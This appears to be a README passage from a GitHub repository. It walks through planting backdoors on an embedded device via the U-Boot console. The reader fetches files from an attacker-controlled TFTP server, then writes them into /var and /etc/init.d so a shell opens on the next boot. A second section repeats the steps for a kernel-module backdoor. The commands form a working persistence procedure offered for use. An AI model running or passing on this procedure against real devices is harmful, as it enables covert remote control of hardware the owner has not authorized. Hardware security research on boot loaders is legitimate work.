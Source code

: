 We can write our backdoor files on the file system disk of embedded device through U-Boot.  To do so, we must host them on a TFTP server.
(the examples are in this repo)  
So first we must upload them to our tftp server.  
Now, we reboot the embedded device and interrupt the uboot sequence which will drop us into the uboot console.  
we can view our DHCP address via `dhcp` and set the tftp ip via `setenv serverip <ipaddress>`  
Get memory addresses via `bdinfo` so we know where to store our files in memory.  
Now pull the files:  
```
tftp 0x63000000 servicex
tftp 0x64000000 S50servicex
```
After this, we write the files stored in memory to disk (REMEMBER to take note of the last arg, it will change so refer to the out put of tftp download):  
```
ext4write mmc 0:1 0x63000000 /var/servicex 0x5f
ext4write mmc 0:1 0x64000000 /etc/init.d/S50servicex 0x161
```
now reboot the device, let it boot and upon success you should receive your shell.

### FOR kernel backdoor:

same steps as above in addition to the below changes:
```
tftp 0x63000000 processenum.ko
tftp 0x65000000 S60kernel
```

```
ext4write mmc 0:1 0x63000000 /var/processenum.ko 0x1e1b8
ext4write mmc 0:1 0x65000000 /etc/init.d/S60kernel 0x172
```

